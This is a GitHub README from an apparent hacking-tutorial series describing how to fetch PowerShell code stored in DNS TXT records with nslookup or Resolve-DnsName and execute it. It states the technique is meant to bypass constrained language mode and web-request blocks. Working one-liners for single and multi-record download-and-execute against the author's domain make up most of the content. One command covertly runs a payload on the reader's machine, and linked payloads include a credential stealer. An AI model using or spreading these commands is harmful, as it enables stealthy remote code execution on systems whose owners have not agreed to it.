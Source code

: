 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#Commands">The Commands</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# NS-Lookup

<p align="center">
      <a href="https://www.youtube.com/watch?v=bPkBzyEnr-w">
        <img src=https://i.ytimg.com/vi/bPkBzyEnr-w/hqdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

This concept was introduced to me VIA my friend Alh4zr3d on [twitter](https://twitter.com/Alh4zr3d/status/1566489367232651264?s=20&t=JXNaXH1m76yL31VdSzlyNg)

This abuses the ability to pull down dns txt records from a website and execute the output 

This is especially helpful on systems using powershell constrained language and blocking Invoke-WebRequest or Invoke-Expression

## Commands

The following commands will be referencing the DNS TXT Records shown in the below image

<img src=https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/raw/main/Assets/images/dns-records.png width="1200" alt="Python" />

### [Single TXT Record Execution]     

This nslookup example is how I was introduced to this concept originally. 

It is used to pull down a single TXT Record and execute it

`example` is referencing one of the DNS TXT Records in the image above. 

Replace it with the name of your TXT Record and replace the website URL with your own

This will execute a simple echo command to show it works 

```
powershell . (nslookup -q=txt example.iamjakoby.com)[-1]
```

More complex payloads are of course possible. 

Running the following example below will make you automatically subscribe to my youtube channel (you should try it)  

```
powershell . (nslookup -q=txt sub.iamjakoby.com)[-1]
```

### Take NOTE

The previous examples will only work when executed in a powershell window.

If it is your intention to use them in the Run Box they have to be modified as follows:

```
powershell "powershell . (nslookup -q=txt sub.iamjakoby.com)[-1]"
```

### [Multiple TXT Record Execution] 

The issue with pulling down a single TXT Record is they have a character limit of 255 

So in order to execute longer scripts you have to pull down multiple records and combine them 

The following modified verion I wrote will do just that 

`1..3` refers to DNS TXT Records 1, 2, and 3 in the image above. 

This will pull them down in that order and combine then execute them 

```
1..3|%{$p+=Resolve-DnsName "$_.iamjakoby.com." -Ty TXT |% S*s};& ([scriptblock]::Create($p))
```

Like this first example however there needs to be a modification to use it in the Run Box

The `" "` need to escaped with a `\` for it to function as intended

```
powershell 1..3|%{$p+=Resolve-DnsName \"$_.iamjakoby.com.\" -Ty TXT -EA 0|% S*s};& ([scriptblock]::Create($p))
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these commands:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
